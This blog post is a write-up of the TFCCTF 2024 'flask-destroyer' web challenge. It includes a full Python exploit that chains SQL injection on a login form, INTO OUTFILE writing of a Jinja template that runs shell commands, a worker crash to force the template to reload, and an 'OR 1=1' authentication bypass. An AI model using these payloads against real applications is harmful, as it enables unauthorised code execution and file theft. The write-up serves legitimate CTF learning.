 ```yaml
---
layout: post
title:  "flask destroyer - TFCCTF 2024"
date:   2024-08-03 00:00:00 -0400
---
```


https://ctftime.org/event/2423

# flask-destroyer (web)

flask sqli

## Solution

There is an sqli on login, and `secure_file_priv = ""`.
So we can upload any file we want.

There is just the problem that flask hotloading is off, so we cannot load new templates.

The solution is crashing the worker so when it restarts it loads the new templates in.
The intented way to crash the worker is abusing `strtok` from libc, `asdsad:asda:` segfaults it

The full exploit then:
- upload template
- crash
- get new template

```python
#!/usr/bin/env python3
import requests
import time
import string
from urllib.parse import quote_plus

# REMOTE = "http://0.0.0.0:1337/"
REMOTE = "http://challs.tfcctf.com:32006/"

def create_file():
    payload = '''" UNION SELECT '{{ dict.__base__.__subclasses__()[379]("cat $(find /tmp -type f)",shell=True,stdout=-1).communicate()[0] }}', '', '' into outfile '/destroyer/app/templates/a.html'-- '''
    login = f'username=1&password={payload}&vibe=y'
    res = requests.post(REMOTE + 'login', headers={'Content-Type':'application/x-www-form-urlencoded'}, data=login, proxies={
        'http': 'http://0.0.0.0:8080',
        'https': 'https://0.0.0.0:8080'
    })


def crash():
    payload = '''" UNION SELECT 'this works', 'sdsadasd', 'bla:'-- '''
    login = f'username=1&password={payload}&vibe=y'
    res = requests.post(REMOTE + 'login', headers={'Content-Type':'application/x-www-form-urlencoded'}, data=login, proxies={
        'http': 'http://0.0.0.0:8080',
        'https': 'https://0.0.0.0:8080'
    })

def get():
    payload = '''" OR 1=1-- '''
    login = f'username=1&password={payload}&vibe=y'
    with requests.Session() as ses:
        ses.post(REMOTE + 'login', headers={'Content-Type':'application/x-www-form-urlencoded'}, data=login, proxies={
            'http': 'http://0.0.0.0:8080',
            'https': 'https://0.0.0.0:8080'
        })
        res = ses.get(REMOTE + 'a.html', proxies={
            'http': 'http://0.0.0.0:8080',
            'https': 'https://0.0.0.0:8080'
        })
        print(f"DEBUGPRINT[4]: go.py:37: res.text={res.text}")

create_file()
time.sleep(2)
crash()
time.sleep(5)
get()
```

## Flag
`TFCCTF{Cr4Sh_g0_bRbRbRbRbR}`

shafouz 2024/08/03
